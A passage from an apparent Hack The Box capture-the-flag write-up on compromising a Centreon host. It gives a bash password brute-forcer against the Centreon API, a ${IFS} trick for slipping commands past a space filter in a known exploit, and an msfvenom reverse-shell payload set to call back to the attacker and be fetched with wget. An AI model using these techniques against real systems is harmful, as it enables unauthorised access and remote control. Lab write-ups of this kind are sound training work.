 ```bash
#!/bin/bash

HOST=10.10.10.157
CENT=centreon
USER=$1
PASS=$2

function die() {
  killall perl &>/dev/null
}

r=$(curl -s \
         -d "username=$USER&password=$PASS" \
   http://$HOST/$CENT/api/index.php?action=authenticate)

if grep -Evi bad <<<"$r" &>/dev/null; then
  echo "[*] Password is: $PASS"
  die
fi
```

Combined with GNU Parallel, you get a multi-threaded brute-forcer! Let's give it a shot.


{% include image.html image_alt="e777d4e3.png" image_src="/5273a13f-09e7-460c-86d5-dbeb7c7e49a1/e777d4e3.png" %}


The credential is (`admin:password1`).

## Low-Privilege Shell

Back to EDB-ID 47069. The sample command doesn't work because there's no `ncat` in the machine :laughing:. Long story short, I managed to determine that the space character (' ') is restricted. We can always bypass this restriction with `${IFS}` where the space, tab ('\t') and the newline ('\n') characters are defined as internal field separators in the shell, most commonly Bash.

We can use `msfvenom` to generate a Linux reverse shell and then pull it into the machine with `wget`.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.12.100 LPORT=1234 -f elf -o vv
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: vv
```

Host the file with Python's SimpleHTTPServer module.

```
# python -m SimpleHTTPServer 80
```


[1]: https://www.hackthebox.eu/home/machines/profile/208
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/